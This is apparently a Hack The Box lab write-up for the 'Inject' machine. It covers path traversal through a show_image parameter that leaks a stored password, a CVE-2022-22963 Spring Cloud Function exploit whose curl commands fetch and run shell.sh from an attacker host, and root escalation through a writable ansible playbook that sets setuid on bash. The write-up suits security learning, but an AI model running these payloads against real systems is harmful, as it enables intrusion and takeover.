

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.129.35.27 inject.htb`

****nmap scan: TCP/IP****

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

It is not a php or python or js webapp, possibly a Java webapp(?)


login is not working and noting on the `/register` page.


There is a `/blog` page


And a `/upload` page, which looks interesting.


* Only image files are accepted!
* And When we upload a file, we can be view it from `/show_image?img=image.jpg`.

but it is returning 500 error.

# Foothold

## Path Traversal in apache maven webApp

There is some odd behavior. If we "Accept: text/html" header, it returns normal html 500 error.


If we "Accept: application/json" header, it returns 500 in json format but with more detailed error.


Which give the exact location of file, and the parameter is vulnerable for path traversal


Pretty weird this is, this parameter is even doing directory listing.

```bash
❯ curl "http://10.129.35.27:8080/show_image?img=../../../../../../../home"
frank
phil
```

from web app directory, figure out it is a apache maven webApp.

```bash
❯ curl "http://10.129.35.27:8080/show_image?img=../../../../../../var/www/WebApp"
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
targe
```

Maven Webapp directory structure - https://maven.apache.org/archetypes/maven-archetype-webapp/

maven project Settings file - https://maven.apache.org/settings.html

```xml
❯ curl "http://10.129.35.27:8080/show_image?img=../../../../../../home/frank/.m2/settings.xml"
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

ssh key is not there and password also not working.

If we look at the project config file `pom.xml`

```xml
❯ curl http://10.129.35.27:8080/show_image\?img\=../../../../../../var/www/WebApp/pom.xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

It is using `org.springframework.cloud:spring-cloud-function-core` versions  3.2.2, which is vulnerable for CVE-2022-2296 - https://github.com/dinosn/CVE-2022-22963

## CVE-2022-22963

Details - https://sysdig.com/blog/cve-2022-22963-spring-cloud/

```bash
curl -X POST  http://10.129.35.27:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping -c2 10.10.14.50")' --data-raw ''
```



and get reverse shell with curl upload and then execute.
```bash
curl -X POST  http://10.129.35.27:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.50:8000/shell.sh -o /tmp/shell.sh")' --data-raw ''

curl -X POST  http://10.129.35.27:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/shell.sh")' --data-raw ''
```


# Privesc

# ansible-playbook

from "CVE-2022-22963" we get shell as user "frank" and using phil password form `/home/frank/.m2/settings.xml` we can `su` to user "phil"

User "phil" is in "staff" group
```bash
phil@inject:~$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Finding files/dir where staff gorup have access.
```bash
phil@inject:~$ find / -group staff 2>/dev/null
/opt/automation/tasks
/root
/var/local
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/lib/python3.8/dist-packages/ansible_parallel.py
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/LICENSE
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/RECORD
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/entry_points.txt
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/WHEEL
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/METADATA
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/top_level.txt
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/INSTALLER
/usr/local/lib/python3.8/dist-packages/__pycache__
/usr/local/lib/python3.8/dist-packages/__pycache__/ansible_parallel.cpython-38.pyc
/usr/local/share/fonts
/usr/local/share/fonts/.uuid
```

`/opt/automation/tasks` directory contains a xml file which is a ansible playbook file.
```yml
phil@inject:/opt/automation/tasks$ cat playbook_1.yml

- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

Running the pspy, found that `ansible-playbook` is running playbooks from `/opt/automation/tasks` by root every 1 minute using cron.


and we have write access to `/opt/automation/tasks`, so we can write a playbook config and get shell as root.


playbook Config to execute command as root.
```yml
cat > /opt/automation/tasks/shell.yml << EOF
- hosts: localhost
  tasks:
    - name: Priv esc
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true
EOF
```

And next time when playbook execute, it create a `chmod +s /bin/bash` and set `setuid` of root user. 


